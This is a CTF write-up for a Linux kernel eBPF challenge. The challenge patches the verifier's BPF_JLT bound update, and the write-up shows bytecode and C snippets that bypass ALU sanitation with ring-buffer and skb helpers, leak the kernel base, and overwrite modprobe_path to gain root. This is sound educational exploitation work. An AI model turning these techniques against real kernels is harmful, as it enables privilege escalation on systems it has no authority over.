


# The Lord of the Notes

## TL; DR

Take advantage of a vulnerable eBPF verifier patch to abuse a vulnerability in the `regs_refine_cond_op` implementation to trick the verifier via `BPF_JLT` and take advantage of `bpf_ringbuf_output` and `skb_load_bytes` to bypass ALU Sanitation to leverage OOB r/w to LPE.

## Challenge Description

This is one of the challenges I had the opportunity to create for HackOn CTF 2026

> Un buffer para gobernarlos a todos

- Category: **pwn**

## Exploitation
### Initial setup
We are given a list of common files in kernel exploitation challenges:

```console
root@ubuntu:/home/lkt/Desktop/hackon26/tlon# ls -l
total 24680
-rwxr-xr-x 1 root root       82 ene 21 01:37 build-docker.sh
-rw-r--r-- 1 root root 13992960 ene 21 20:47 bzImage
-rw-rw-r-- 1 lkt  lkt       166 ene 21 01:48 ctf.xinetd
-rw-r--r-- 1 lkt  lkt       276 ene 21 01:45 Dockerfile
-rw-r--r-- 1 root root  5626880 ene 21 01:15 initramfs.cpio.gz
-rw-r--r-- 1 root root      230 ene 21 01:21 patch.diff
-rwxr-xr-x 1 lkt  lkt       283 ene 21 01:44 run.sh
```

In this case we are not going to exploit a vulnerable kernel module, as we can see there is `patch.diff`:

```c
--- a/kernel/bpf/verifier.c
+++ b/kernel/bpf/verifier.c
@@ -15078,7 +15078,7 @@
-           reg1->umax_value = min(reg1->umax_value, reg2->umax_value - 1);
+           reg1->umax_value = min(reg1->umax_value, reg2->umax_value - 2);
```

This patch implements a modification in the handling of the `BPF_JLT` instruction. After doing the jump, the [verifier](https://elixir.bootlin.com/linux/v6.12.47/source/kernel/bpf/verifier.c#L15076) will update its ``umin`` and ``umax`` ranges accordingly:
If we have the following case where `R1 = (0, 2)` and `R2 = 2`, if we compare both registers `if (R1 < R2)`, the verifier will update the maximum value of R1's range by choosing the minimum one between its current ``max_value``, and R2's `max_value - 1`. So after the jump, `R1 = (0, 1)`. This is the standard behaviour of eBPF verifier, but in the patch there is a bug that allows us to create a bad register. The substraction is changed to `-2`, this looks like a minor change but this is letting us a chance to confuse the verifier. With the same case as before:

- We create a verifier state with the following values: `R1 = (0, 2)` and `R2 = 2` 
- Then execute the branch operation ``if (R1 < R2)``
    - The R1 range will get updated `R1 = ` ~~``(0, 1)``~~ ``(0, 0)!!``

The new R1 range will be (0, 0), the verifier will think `R1 = 0`, when in reality it can be 0 or 1. This is exactly what we do to exploit this vulnerability, if we create a ``BPF_MAP_TYPE_ARRAY`` and give the eBPF bytecode the value 1, after doing what we described before, we can get a register to hold the value 1, but inside the verifier state, it will think it is 0. This is a big primitive because now we can multiply this scalar register with any value we want and OOB write/read on the kernel heap.

This is my second eBPF challenge, I learnt almost every technique from [extended-eBPF](https://github.com/Iokete/writeups/tree/main/pwn/uoftctf2026/extended-ebpf) challenge from UoftCTF2026. For this challenge, I wanted to take a step forward and learn how to bypass **ALU Sanitation**, a protection that was not enabled in UoftCTF, but it is here.

I will not cover the basics of eBPF in this writeup, you can refer to [this blog](https://chomp.ie/Blog+Posts/Kernel+Pwning+with+eBPF+-+a+Love+Story) for in-depth explanation, or [my other writeup](https://github.com/Iokete/writeups/tree/main/pwn/uoftctf2026/extended-ebpf) for a quick introduction.

### ALU Sanitation

The verifier tracks the contents of every register using **static analysis**, this means that using specific bugs it can be tricked to think a register has a value when in runtime it has a different one. If we now try to OOB read a value with the previous primitive using pointer arithmetic and `BPF_LDX_MEM`, we won't get any error, but it will not work. This is because ALU Sanitation will patch our bytecode **in runtime** to prevent this out of bounds access. 

This was introduced to mitigate this kind of attacks, so to bypass this I used the techniques used in [this blog](https://pentera.io/blog/the-good-bad-and-compromisable-aspects-of-linux-ebpf/). 

There are specific eBPF helper functions, these are API functions used to retrieve information from packets, debug, etc. Some of these take as parameter a `src` pointer from where it will read, a `dst` pointer to write the data read to, and the most important part, a `size` field. For this helper functions, ALU sanitation will not add its patch, so we can use them to bypass the protection. There are 2 helpers that we will use:

- `bpf_ringbuf_output()`: to OOB read and get our leaks.
- `bpf_skb_load_bytes()`: to achieve AAW (can be used to leak too)

## Defeating KASLR

To achieve out-of-bounds access in the kernel heap we will create what we will call the `VULN` register, this will hold this "confused" value, the one the verifier thinks is 0, but is actually 1. As we explained before, we can create this confusion with the following instructions:

```c
/* Retrieve our value (1) from the bpf_map */
BPF_MOV64_REG(BPF_REG_9, BPF_REG_1), 
BPF_LD_MAP_FD(MAP_FD_REG, map_fd),
BPF_MOV64_IMM(BPF_REG_2, idx), 
BPF_STX_MEM(BPF_DW, STACK_POINTER, BPF_REG_2, -0x8), 
BPF_MOV64_REG(BPF_REG_2, STACK_POINTER), 
BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8), 
BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), 
ERR_CHECK, 
BPF_LDX_MEM(BPF_DW, BPF_REG_5, RETURN_VALUE_REG, 0), 

/* Create branches to set the R5 range to (0, 2) */
BPF_JMP_IMM(BPF_JLE, BPF_REG_5, 2, 2), 
	CLEAR_RAX, 
	BPF_EXIT_INSN(), 
BPF_JMP_IMM(BPF_JGE, BPF_REG_5, 0, 2), 
	CLEAR_RAX, 
	BPF_EXIT_INSN(), 

/* Trigger the vulnerable BPF_JLT to set R5 = (0, 0) */
BPF_MOV64_IMM(BPF_REG_6, 2), 
BPF_JMP_REG(BPF_JLT, BPF_REG_5, BPF_REG_6, 2), 

/* Move it to the VULN register */
BPF_MOV64_REG(VULN, BPF_REG_5)
```

> **Note:** `ERR_CHECK` and `CLEAR_RAX` are user defined macros to exit if the function fails, or to set `BPF_REG_0` to 0.

With our `VULN` register set, we can now setup a `ringbuf` to read from the kernel with `bpf_ringbuf_output`. 
It is defined like so: `static long (* const bpf_ringbuf_output)(void *ringbuf, void *data, __u64 size, __u64 flags)`, it will read from `data` into our `ringbuf` for a length of `size` bytes. We will place there our `VULN` value, multiplied by an arbitrary number.

To use this helper, we must set up 3 different memory allocations ([docs](https://docs.ebpf.io/linux/helper-function/bpf_ringbuf_output/)): 

```c
/* setup ring buffer */
int ringbuf_fd = bpf_create_ringbuf_map(0x1000);

size_t pagesize = sysconf(_SC_PAGESIZE);
void *cons = mmap(NULL, pagesize, PROT_READ | PROT_WRITE, MAP_SHARED, ringbuf_fd, 0);
void *prod = mmap(NULL, pagesize, PROT_READ, MAP_SHARED, ringbuf_fd, pagesize);
void *data = mmap(NULL, 0x1000, PROT_READ, MAP_SHARED, ringbuf_fd, 2 * pagesize);
```

According to the documentation: 

> This function incurs an extra memory copy operation in comparison to using bpf_ringbuf_reserve/bpf_ringbuf_submit/bpf_ringbuf_discard, **but allows submitting records of lengths unknown to the verifier**.

Now from our eBPF bytecode we have to set the arguments:

```c
/* arg1 = bpf_ringbuf_map (to) */
BPF_LD_MAP_FD(MAP_FD_REG, ringbuf_fd), 

/* arg2 (from) */
BPF_MOV64_REG(BPF_REG_2, RETURN_VALUE_REG),

/* arg3 = 0 or 0x108 (len) */
BPF_ALU64_IMM(BPF_MUL, VULN, 0x108), 
BPF_MOV64_REG(BPF_REG_3, VULN),

/* arg4 flags */
BPF_MOV64_IMM(BPF_REG_4, 0), 

BPF_EMIT_CALL(BPF_FUNC_ringbuf_output),
```

For every BPF map that we create there is always an `ops` pointer, this will hold the address of the `map_type` specific operation functions, like `lookup`, `update`, etc. This pointer is, for this kernel version, `0x12202a0` bytes off the kernel base, so we can use it to defeat KASLR. 

`bpf_ringbuf_output` does not let us read to negative offsets, so we must leak something that is contiguous in memory to our ring buffer. Because `CONFIG_SLAB_FREELIST_RANDOM` is enabled in linux kernel 6.12, we cannot predict what will be in front of our map, so we can fill the ``kmalloc-512`` cache with `BPF_MAP_TYPE_ARRAY` to make sure it will always be a BPF map in the next chunk.

Debugging with GDB we can see that the offset to the ``ops`` pointer from the start of the `bpf_ringbuf_map` is exactly 0x108 bytes, so we call the helper with this size.

To read from the map from userland we have this function: 

```c
static uint64_t dump_ringbuf(void *cons, void *prod, void *data){

	__sync_synchronize();

    uint64_t p_pos = *(uint64_t*)prod;
    uint64_t c_pos = *(uint64_t*)cons;

    printf("[!] Ringbuf -> Producer: %lu, Consumer: %lu\n", p_pos, c_pos);

    if (p_pos > c_pos) {
		char *leak = (char*)data + (c_pos & 0xFFF) + 8;

		return *(unsigned long*)&leak[0x100];
		
    }

    *(uint64_t*)cons =  p_pos;

	return (unsigned long)NULL;
}
```

This is, as far as I know, as simple as it can get for ring buffers, because there are some checks you have to do in the `producer` and `consumer` regions (that I did not want to learn at the moment of solving this challenge). Our leak address is at offset 0x100, so we can retrieve it and calculate kernel base.

## Kernel AAW

Now that we have a leak, we have to make use of our confused register to get a more powerful primitive than OOB. This time we will use `bpf_skb_load_bytes`. This function will load the received bytes (from the socket) into an address of our choice. You can check the documentation [here](https://docs.ebpf.io/linux/helper-function/bpf_skb_load_bytes/). 

`static long (* const bpf_skb_load_bytes)(const void *skb, __u32 offset, void *to, __u32 len)`

The `*skb` pointer is loaded automatically into R1 when starting our bytecode, so we save it at the beginning of our program. ``offset`` is where (in the socket buffer) we have to start copying, `*to` the address to write to and `len` the number of bytes.

We are going to trick again the verifier, this time we will set our length to 0x18, but the helper does not accept 0 as length, so we multiply `VULN` with 0x17, and then `VULN += 1`.

First, we will store in `RSP-0x18` and `RSP-0x20` a pointer to the map, this is done so the verifier **knows** that at these stack positions there are pointers that can be accessed to. Then we will set the length of the write to 0x18, and the pointer where we will write is `RSP-0x28`. After the call to `bpf_skb_load_bytes`, the verifier will think we wrote 1 byte, but in reality we are writing 0x18 bytes! The first qword will be "AAAAAAAA" to pad until the pointers, and then `&modprobe_path` and `&modprobe_path+4` for the last qword.



The verifier thinks that the addresses in the stack are `bpf_map` valid pointers, so we can access them and write anything into them with `BPF_STX_MEM`. We will use this to write the string `/tmp/x` to `modprobe_path`. Refer to [this blog](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/) for more info about this technique.

The stack will be overwritten when we execute the program, writing our payload to the socket that triggers the bytecode.

```c
/* restore our previously saved *skb to R1 */
BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),

/* store the safe pointers in the stack */
BPF_STX_MEM(BPF_DW, STACK_POINTER, RETURN_VALUE_REG, -0x18),
BPF_STX_MEM(BPF_DW, STACK_POINTER, RETURN_VALUE_REG, -0x20),
BPF_MOV64_IMM(BPF_REG_2, 0x0), // offset = 0 (arg2)
BPF_MOV64_REG(BPF_REG_3, STACK_POINTER), // to = fp-0x28 (arg3)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -0x28),
/* set length */
BPF_ALU64_IMM(BPF_MUL, VULN, 0x17), // the verifier thinks this is 0x17 * 0 = 0
BPF_ALU64_IMM(BPF_ADD, VULN, 1),
BPF_MOV64_REG(BPF_REG_4, VULN), // len = 0x18 (arg4)
BPF_EMIT_CALL(BPF_FUNC_skb_load_bytes),
/* aaw via BPF_FUNC_skb_load_bytes */

/* overwrite modprobe_path */
BPF_LDX_MEM(BPF_DW, BPF_REG_6, STACK_POINTER, -0x20),
BPF_MOV64_IMM(BPF_REG_4, (_tmp_x & 0xffffffff)),
BPF_STX_MEM(BPF_W, BPF_REG_6, BPF_REG_4, 0),

BPF_LDX_MEM(BPF_DW, BPF_REG_6, STACK_POINTER, -0x18),
BPF_MOV64_IMM(BPF_REG_4, (_tmp_x >> 32)),
BPF_STX_MEM(BPF_W, BPF_REG_6, BPF_REG_4, 0),
```

## Getting the flag

Because there is no way of compiling the exploit inside the machine, I have a Python script that compiles it with `musl-gcc`, and manages the decoding and execution remotely into the VM.



### Solver

- Final exploit: [exploit.c](assets/exploit.c)
- eBPF insns: [bpf_insns.h](assets/bpf.h)
- eBPF helpers: [bpf.h](assets/bpf.h)
- Python solver: [win.py](assets/win.py)
